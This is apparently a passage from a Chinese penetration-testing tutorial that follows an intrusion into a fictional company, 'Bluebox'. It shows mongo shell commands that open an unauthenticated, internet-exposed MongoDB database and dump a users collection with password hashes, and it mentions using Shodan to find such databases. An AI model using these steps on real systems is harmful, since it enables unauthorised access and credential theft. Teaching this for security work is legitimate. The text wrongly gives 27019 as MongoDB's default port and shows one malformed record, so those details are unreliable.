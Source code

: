 屏幕上弹出十几个服务。有些是管理服务，如SSH和RDP，可用于远程连接到具有有效凭据的计算机。其他是典型的web端口（80和443）。

然而，有一个端口很突出：27019。有一个很好的理由：它是MongoDB使用的默认端口，MongoDB是一个非关系型数据库，它存储文档并对文档进行索引，而不需要任何集合结构（不像关系型或经典型数据库需要表、列和字段等）。

不过，有趣的是，默认情况下，MongoDB不需要任何身份验证。如果有人有一个（伟大的）想法，在没有最低限度的安全优化的情况下在互联网上公开它，任何人都可以访问它的内容。全球互联网搜索引擎Shodan上的一个快速搜索给出了暴露的MongoDB的数量（不受限制）。 ![](.gitbook/assets/39.shadon-mongodb.png)

所以我们连接到这个数据库，希望能得到一些信息，帮助我们进入Bluebox的网络。

```text
FrontGun$ mongo MongoDB_IP
>show dbs
admin        0.000GB 
local    0.001GB 
stats_db 0.0210GB
```

我们使用以下命令列出“stats\_db”数据库的集合（相当于表）:

```text
>    use stats_db
>    show collections
fav 
final 
graphs 
points 
statsD 
statsM 
statsY 
users
```

“用户”集合显然是一个重要的目标:

```text
>    db.users.find({})
{ "_id" : ObjectId("5852f4029c12654f92094f1e"), "login"    :    "admin","pass","415847a30cb264ffa270c40e979f9c6d", "admin", "read_priv" : "Y" }
{ "_id" : ObjectId("5852f4029c12654f92094f1f"), "login"    :    "stats",    "pass"    : "d106b29303767527fc11214f1b325fb6", "role" : "stats", "read_priv" : "Y" }
{ "_id" : ObjectId("5852f4029c12654f92094f20"),"login"    :    "backup",    "pass"    : "2c3bcecc4a6bcfebcbfbaa5dd3d6159d", "role" : "stats", "read_priv" : "Y" }
```
